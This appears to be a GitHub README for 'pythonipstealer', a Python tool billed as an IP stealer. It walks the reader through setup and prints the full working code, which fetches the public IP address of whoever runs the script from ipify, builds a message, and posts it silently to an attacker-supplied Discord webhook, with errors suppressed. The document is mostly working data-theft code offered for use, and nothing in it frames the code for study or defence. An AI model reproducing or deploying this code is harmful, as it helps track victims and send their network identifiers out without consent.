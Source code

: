 # pythonipstealer
A ip stealer made using python which sends the ip to a webhook
# How to set up 
Note you need a webhook to send the ip(s) to you.If you don't have one then you can sign up on [Discord](https://discord.com/) which is a chat app but it has webhook feature.In the code you will see a variable called  webhookURL paste it there.If you don't know how to make a discord webhook then click [here](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks) <br>
Type
``` sh 
git clone https://github.com/shourgamer2/pythonipstealer
```
Then edit the python file <br>
Import packages
``` python
# Import all the needed packages 
import socket
from requests import get
import requests
import os 
```
 Make the variables
 ``` python
 # Make the variables
ip = get('https://api.ipify.org').text
webhookURL = '' # Place your webhook url here 
hostname = socket.gethostname()    
IPAddr = socket.gethostbyname(hostname) 
```
Build the structure  of  the message  
```python 
# Build the structure  of  the message 
data = {
    'username': 'ip',
    'embeds': [{
        'title': 'ip found',
        'description': "ip " + ': ' + ip,
    }]
}
```
 Send it 
``` python
# Send it 
result = requests.post(webhookURL, json = data)

try:
    result.raise_for_status()
except:
    pass
 ```
